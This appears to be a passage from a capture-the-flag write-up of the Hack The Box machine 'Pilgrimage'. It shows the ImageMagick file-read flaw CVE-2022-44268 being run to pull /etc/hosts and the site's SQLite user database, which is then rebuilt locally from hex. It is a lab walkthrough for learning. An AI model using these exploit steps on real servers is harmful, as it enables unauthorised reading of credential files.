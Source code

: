 And here's our file!

```
127.0.0.1	localhost
127.0.1.1	pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### And now?

We can see any file that Imagemagick has access. Here's where things heat's up: the database of this app is SQLite. The main attribute (and, for us, benefit) of SQLite is it **serverless** design, which means that all the database it's on a single file!

Checking the code of the app again:

```php
// Register.php
$db = new PDO('sqlite:/var/db/pilgrimage');
$stmt = $db->prepare("INSERT INTO `users` (username,password) VALUES (?,?)");
$status = $stmt->execute(array($username,$password));
```

The path to the database is `/var/db/pilgrimage`. Let's retrieve it!

```
python3 CVE-2022-44268.py /var/db/pilgrimage
```

Send the file to the server and check the hex content:

```
53514c69746520666f726d617420330010000101004020200000008d0000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
0000000000000000000000000000000000000000000 [...]
```

Now, save it into a file called `raw_db.txt`.

Let's recreate the database locally:

```python
>>> file = open('raw_db.txt').read().replace('\n', '')
>>> raw_content = bytes.fromhex(file)
>>> open('pilgrimage.db', 'wb').write(raw_content)
```

Now, we can inspect the database on our machine.

```
sqlite3 pilgrimage.db
sqlite> .tables
images users
```

Selecting all the users available:


[^1]: Git is a software for developers to create code, registering and tracking all the changes. When used, Git creates a `.git` directory to store data about the changes. If the contents of `.git` are public, we can get the source code of the app.
[^2]: See the `FILTER_SANITIZE_STRING` section on the [PHP documentation](https://www.php.net/manual/en/filter.filters.sanitize.php). 
[^3]: Read more on the [MetabaseQ article](https://www.metabaseq.com/imagemagick-zero-days/).
[^4]: Before written my own Python script, I've used a Rust version of it. Make sure to [check it out](https://github.com/voidz0r/CVE-2022-44268). 
[^5]: To confirm if the emily was a user on the machine, we can check the `/etc/passwd` file.
[^6]: More info [here](https://lekensteyn.nl/files/pfs/pfs.txt).
[^7]: https://www.reddit.com/r/privacy/comments/9yzya4/lightshot_millions_of_screenshots_available_to/